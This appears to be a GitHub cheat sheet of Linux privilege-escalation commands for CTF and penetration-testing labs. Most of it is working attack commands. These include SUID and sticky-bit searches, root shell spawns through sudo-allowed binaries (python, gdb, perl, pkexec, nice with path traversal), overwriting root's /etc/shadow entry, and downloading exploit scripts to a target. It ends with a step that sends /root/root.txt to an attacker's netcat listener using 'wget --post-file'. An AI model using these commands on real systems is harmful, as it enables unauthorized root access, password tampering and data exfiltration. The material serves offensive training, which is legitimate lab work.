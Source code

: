 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `sudo -l`
- `bin/bash`
- `crontab -l`
- `find / -perm -u=s -type f 2>/dev/null`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```

- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- ```python -c 'import os; os.setuid(0); os.system("/bin/sh")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
- `cat /etc/issue`

## 🔎 Sticky Bit Directory Hunt (Privilege Escalation)

```bash
find / -perm -1000 -type d -exec ls -ld {} \; 2>/dev/null | awk '{print $1,$3,$4,$NF}'
```

> [!IMPORTANT]
> - If you have permission to write /etc/shadow use the below commands
> - First you need to creat a one hash password using openssl
> - `openssl passwd -1 -salt abc password123` it will give you a hash $1$abc$DSFILJKSD7393llsd.0s/ copy that
> - Edit the root password
> - `root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`


- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
### 1️⃣ Read the Root Flag Using --input-file:
- Use a root-only file (/root/root.txt) as an input to wget.
- It will try to parse it as a URL, fail, and leak the content (flag) in the error.
  - `sudo wget --input-file=/root/root.txt`


### 2️⃣ Exfiltrate the Flag Using --post-file:
- Use wget to send the flag to your attack machine.
- Steps:
  - 1. On your Kali machine, start a netcat listener:
    - `nc -lnvp 443`
  - 2. On the victim (sammy), run:
    - `sudo wget --post-file=/root/root.txt http://<your-ip>:443/`
- >The flag is sent to your listener.
